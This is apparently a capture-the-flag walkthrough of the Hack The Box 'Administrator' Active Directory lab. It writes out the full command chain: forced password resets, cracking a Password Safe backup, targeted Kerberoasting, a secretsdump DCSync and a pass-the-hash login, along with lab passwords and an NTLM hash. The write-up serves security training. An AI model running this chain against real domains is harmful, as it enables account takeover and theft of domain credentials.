Administrator is  Windows Active Directory machine that requires chaining multiple attacks to achieve domain compromise. Starting with valid credentials for the user Olivia, the attack path involves leveraging GenericAll permissions over Michael, which has ForceChangePassword permission on Benjamin. Access to the FTP server as Benjamin reveals a Password Safe database file that, once cracked, exposes credentials for Emily. From Emily's account, a targeted Kerberoasting attack against Ethan yields another set of credentials. Finally, Ethan's privileged position in the domain allows for a DCSync attack to extract the Administrator's NTLM hash, enabling full domain compromise through pass-the-hash authentication. The box emphasizes understanding Active Directory attack paths, proper enumeration with BloodHound, and the importance of time synchronization when performing Kerberos-based attacks.

Starting off with credentials in this box:
Olivia:ichliebedich


A quick nmap scan shows us this is an AD box.

```
nmap -sC -sV 10.129.10.11
```


Checking the SMB shares using Olivia.

```
nxc smb 10.129.10.11 --shares -u 'Olivia' -p 'ichliebedich'

```


Searching through all these shares got me nothing interesting.

I'll update my /etc/hosts file with the respective domain.



Since I started off with credentials, will use bloodhound to map out the AD domain.

```
sudo bloodhound-python --dns-tcp -ns 10.129.10.11 -d administrator.htb -u 'olivia' -p 'ichliebedich' -c all 
```




Seeing what we can do with Olivia in bloodhound, It seems that I can get access to Benjamin who is part of the Share Moderators group through a chained series of attacks.



**Compromising Ben and Michael**

Abusing the GenericAll permission, we can force change Michael's password.

```
net rpc password "Michael" "newP@ssword2022" -U "administrator"/"olivia"%"ichliebedich" -S "dc.administrator.htb"
```


Proceeding to do the same with Benjamin, this time with Michael's credentials

```
net rpc password "Benjamin" "newP@ssword2022" -U "administrator"/"Michael"%"newP@ssword2022" -S "dc.administrator.htb"
```


Benjamin and Michael are both pwned

Now we have these 3 users:
Michael:newP@ssword2022
Benjamin:newP@ssword2022
olivia:ichliebedich


Referring to bloodhound again, Michael is part of the Remote Management users group. What this means is that we can use Evil-WinRM to access the machine.



```
sudo evil-winrm -i administrator.htb -u 'Michael' -p 'newP@ssword2022'

```



Browsing through the system, I found that there's a FTProot directory in inetpub, which i do not have access over.


Looking back at the nmap scan, there was a FTP server open.

I will attempt to login to the FTP server with all 3 of my credentials. Let's try benjamin first.


```
ftp "ftp://Benjamin@administrator.htb" 

```



I have successfully logged into the FTP server, and retrieved a file called Backup.psafe3.

Searching online, we can see that this is a password safe file, which is can be cracked by hashcat.

Bringing the psafe file over to my Windows machine to crack via hashcat .


Running this command
```
hashcat.exe -m 5200 -a 0 "C:\cracker\Backup.psafe3" "C:\cracker\rockyou.txt"
```

We get a cracked password: tekieromucho



Installing passwordsafe:

```
sudo apt install passwordsafe
```



We get this UI after opening it.

Loading our backup psafe file with tekieromucho :



We get these users.


**Shell as Emily**

During my enumeration on the machine as Michael, Emily was part of the users


I'll login as emily on Evil-WinRM 
```
sudo evil-winrm -i administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```

Looking at bloodhound, we see that Emily has GenericWrite over Ethan.

We'll use TargetedKerberoast.py as suggested by Bloodhound to crack Ethan's password.
https://github.com/ShutdownRepo/targetedKerberoast

```
python targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```




We get a clock skew error. This occurs because we have to be within 5 minutes of the DC's local time.

A nmap scan shows our clock skew time.


This means we're 7 hours behind the DC on administrator.htb. To circumvent against this, we can use faketime to add 7 hours to our local time.


```
faketime "+7 hours" python targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```



Got Ethan's hash. Let's try to crack it on hashcat.

```
Command in powershell
.\hashcat.exe -m 13100 -a 0 "C:\cracker\hash.txt" "C:\cracker\rockyou.txt"

```



ethan:limpbizkit


**Pwning Administrator.htb as Ethan**

Ethan is able to perform a dcsync attack with the GetChanges privilege.


```
secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'dc.administrator.htb' 

```



We get administrator hash.

Logging into Evil-WinRM with Pass-the-Hash
```
sudo evil-winrm -i administrator.htb -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

```



Succesfully obtained Admin.